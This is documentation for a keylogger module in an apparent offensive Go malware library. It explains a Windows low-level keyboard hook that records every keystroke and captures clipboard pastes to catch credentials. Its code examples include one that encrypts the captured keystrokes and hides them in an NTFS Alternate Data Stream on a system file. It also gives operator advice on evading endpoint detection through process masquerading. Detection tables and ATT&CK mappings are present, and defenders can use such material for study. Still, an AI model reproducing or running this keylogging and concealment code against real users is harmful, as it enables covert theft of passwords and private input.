

# Keylogging

[← collection index](README.md) · [docs/index](../../index.md)

## TL;DR

Install a `WH_KEYBOARD_LL` system-wide hook; every keystroke arrives in a
Go channel with translated character, modifier flags, active-window title and
owning-process path. On Ctrl+V the clipboard snapshot is bundled into the
same event, capturing credential pastes automatically.

## Primer

A low-level keyboard hook intercepts each `WM_KEYDOWN` message at the OS
message-dispatch layer, before it reaches any application. This gives the
implant a complete transcript of everything the user types — passwords,
commands, search queries — across every window without injecting into any
process.

Each `Event` carries the translated Unicode character (or a label such as
`[Enter]`, `[Backspace]`, `[F5]`), the modifier state (Ctrl/Shift/Alt), the
foreground window's title, and the executable path of the owning process.
That attribution turns a raw character stream into a structured log: browser
typed credentials, terminal commands, and document edits land in separate
buckets with no additional work by the consumer.

The Ctrl+V case is handled specially: when a Ctrl+V chord is detected the
hook reads the current clipboard text and attaches it to the event. This
catches credential pastes that bypass keystroke-level keylogging entirely —
a password manager that auto-fills via the clipboard never generates
printable keystrokes.

The hook runs on a dedicated OS thread with its own Win32 message pump. The
goroutine that calls `Start` returns immediately; the pump thread runs until
the context is cancelled, at which point it posts `WM_QUIT` to itself and
tears down cleanly.

## How It Works



Key implementation details:

- `ToUnicodeEx` with `wFlags=0x4` preserves dead-key state in the keyboard
  layout buffer, so accented characters (`é`, `ü`) are synthesised correctly
  without consuming the pending dead key.
- Foreground-window resolution is cached by HWND and refreshed only on
  change — `GetWindowText` + `QueryFullProcessImageName` are expensive
  relative to the hook cadence.
- `AttachThreadInput` is not used; modifier state is read via
  `GetAsyncKeyState` which does not require thread attachment.
- A single global `atomic.Pointer[hookState]` serialises concurrent `Start`
  calls; a second call while a hook is active returns `ErrAlreadyRunning`.

## API → godoc

[`pkg.go.dev/github.com/oioio-space/maldev/collection/keylog`](https://pkg.go.dev/github.com/oioio-space/maldev/collection/keylog) is the authoritative
reference for every exported symbol. This page teaches the
*concepts*; the godoc is the *specification*.

## Examples

### Simple

```go
import (
    "context"
    "fmt"

    "github.com/oioio-space/maldev/collection/keylog"
)

ch, err := keylog.Start(context.Background())
if err != nil {
    panic(err)
}
for ev := range ch {
    fmt.Printf("[%s] %s", ev.Process, ev.Character)
    if ev.Clipboard != "" {
        fmt.Printf(" <paste: %q>", ev.Clipboard)
    }
    fmt.Println()
}
```

### Composed (per-process segmentation)

```go
import (
    "context"
    "fmt"
    "path/filepath"
    "strings"

    "github.com/oioio-space/maldev/collection/keylog"
)

func logByProcess(ctx context.Context) map[string]string {
    ch, _ := keylog.Start(ctx)
    bufs := map[string]*strings.Builder{}
    for ev := range ch {
        proc := strings.ToLower(filepath.Base(ev.Process))
        if bufs[proc] == nil {
            bufs[proc] = &strings.Builder{}
        }
        bufs[proc].WriteString(ev.Character)
        if ev.Clipboard != "" {
            bufs[proc].WriteString(fmt.Sprintf("[Paste:%q]", ev.Clipboard))
        }
    }
    out := make(map[string]string, len(bufs))
    for k, v := range bufs {
        out[k] = v.String()
    }
    return out
}
```

### Advanced (encrypted ADS stash)

Buffer keystrokes, encrypt each chunk with AES-GCM, and hide the ciphertext
in an NTFS Alternate Data Stream on an existing system file.

```go
import (
    "context"
    "strings"

    "github.com/oioio-space/maldev/cleanup/ads"
    "github.com/oioio-space/maldev/collection/keylog"
    "github.com/oioio-space/maldev/crypto"
)

const (
    adsHost   = `C:\ProgramData\Microsoft\Windows\Caches\caches.db`
    adsStream = "log"
)

func main() {
    ctx := context.Background()
    ch, _ := keylog.Start(ctx)
    key, _ := crypto.NewAESKey()
    var buf strings.Builder

    for ev := range ch {
        buf.WriteString(ev.Character)
        if buf.Len() < 512 {
            continue
        }
        blob, _ := crypto.EncryptAESGCM(key, []byte(buf.String()))
        buf.Reset()
        existing, _ := ads.Read(adsHost, adsStream)
        _ = ads.Write(adsHost, adsStream, append(existing, blob...))
    }
}
```

See `ExampleStart` in
[`keylog_example_test.go`](../../../collection/keylog/keylog_example_test.go).

## OPSEC & Detection

| Artefact | Where defenders look |
|---|---|
| `SetWindowsHookEx(WH_KEYBOARD_LL)` call | Sysmon Event 7 (image load) and ETW `Microsoft-Windows-Win32k`; EDRs specifically watch LL hook installation |
| Global hook DLL loaded into every GUI process | Defender / MDE module-load telemetry |
| Sustained `GetMessage` loop in a non-UI process | Behavioural heuristics — unusual message-pump activity |
| `GetForegroundWindow` + `QueryFullProcessImageName` pairs | EDR API telemetry; rate unusually high for non-accessibility software |
| `GetClipboardData` on every Ctrl+V | Clipboard access telemetry (Windows 10 1809+, Controlled Folder Access) |

**D3FEND counters:**

- [D3-PA](https://d3fend.mitre.org/technique/d3f:ProcessAnalysis/) —
  behavioural analysis of process API usage patterns.
- [D3-SCA](https://d3fend.mitre.org/technique/d3f:SystemCallAnalysis/) —
  system-call sequence analysis, catches unusual LL hook setup.

**Hardening for the operator:** run inside a process that legitimately
installs hooks (accessibility layer, IME, screen reader lookalike); avoid
calling `Start` from a headless service where a message pump is anomalous.

## MITRE ATT&CK

| T-ID | Name | Sub-coverage | D3FEND counter |
|---|---|---|---|
| [T1056.001](https://attack.mitre.org/techniques/T1056/001/) | Input Capture: Keylogging | full — `WH_KEYBOARD_LL` hook | D3-PA |
| [T1115](https://attack.mitre.org/techniques/T1115/) | Clipboard Data | partial — captured only on Ctrl+V paste events | D3-PA |

## Limitations

- **One hook per process.** `ErrAlreadyRunning` prevents double-installation;
  multiple concurrent keylog sessions require separate processes.
- **Requires a Windows GUI session.** `SetWindowsHookEx(WH_KEYBOARD_LL)` is
  rejected in sessions without a desktop (SYSTEM service, Session 0).
- **Non-BMP Unicode.** Surrogate-pair characters (emoji, rare CJK) may appear
  split across two events or transliterated; `ToUnicodeEx` returns two UTF-16
  words in sequence.
- **EDR hook visibility.** LL hooks are among the most scrutinised API calls
  in endpoint detections; combine with process masquerading if stealth is
  required.

## See also

- [Clipboard capture](clipboard.md) — standalone clipboard monitoring without
  a keyboard hook.
- [Screen capture](screenshot.md) — combine with keylog for full session
  recording.
- [`crypto`](../crypto/README.md) — encrypt the event stream before writing
  to disk.
- [`cleanup/ads`](../cleanup/README.md) — hide collected data in NTFS ADS.
- [Operator path](../../by-role/operator.md) — post-exploitation collection
  chains.
- [Detection eng path](../../by-role/detection-eng.md) — hook-based detection
  telemetry.
